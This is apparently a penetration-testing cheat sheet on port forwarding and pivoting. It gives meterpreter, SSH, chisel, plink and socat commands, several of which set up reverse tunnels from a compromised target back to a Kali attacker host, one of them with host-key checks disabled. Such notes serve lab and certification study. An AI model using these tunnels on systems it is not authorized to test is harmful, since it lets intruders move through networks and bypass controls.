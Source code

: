 # port forwarding

## meterpreter:

```bash
portfwd list
portfwd [add | delete] -l LOCAL_PORT -p TARGET_PORT -r TARGET_IP
portfwd flush # to remove all port-forwarding
```

## Using ssh:

* `-f`: background shell, to give shell back
* `-N`: only setup connect, no commands are to be run

### Forward connections (outgoing)

```bash
# for connecting to remote port via localhost (-L) (outgoing)
ssh -L KALI-IP:KALI-PORT:localhost:TARGET-PORT TARGET-USER@TARGET-IP
```

### Reverse connections (incoming)

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -fN -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R KALI-IP:KALI-PORT:localhost:TARGET-PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## [chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.6)

### Remote Port Forward

```bash
# server on kali
chisel server -p 8000 --reverse

# client on target
chisel client KALI_IP:8000 R:KALI_LISTENING_PORT:TARGET_IP:TARGET_PORT_FORWARD [-v]
ex. chisel.exe client 10.10.16.161:9000 R:8989:127.0.0.1:8888
# chisel server is 10.10.16.161:9000
# any requests to kali:8989 ==> target:8888
```

### Local Port Forward

```bash
# server on target
chisel server -p 8000

# client on kali
chisel client TARGET_IP:8000 KALI_PORT:TARGET_IP:TARGET_PORT [-v]
```

* [0xdf's guide to using chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

## plink.exe

```bash
# /usr/share/windows-binaries/plink.exe
plink.exe kashz@IP -R <remote-port>:localhost:<local-port>
```

## socat

```bash
# listen on PORT1,bind to IP1 and route to IP2:PORT2
socat tcp-l:PORT1,fork,reuseaddr,bind=IP1 tcp:IP2:PORT2
```

## Socket Check:

```bash
ss FLAG
```

| flag | description              |
| ---- | ------------------------ |
| -t   | TCP sockets              |
| -u   | UDP sockets              |
| -l   | Listening sockets only   |
| -p   | Process using the socket |
| -n   | No DNS resolution        |
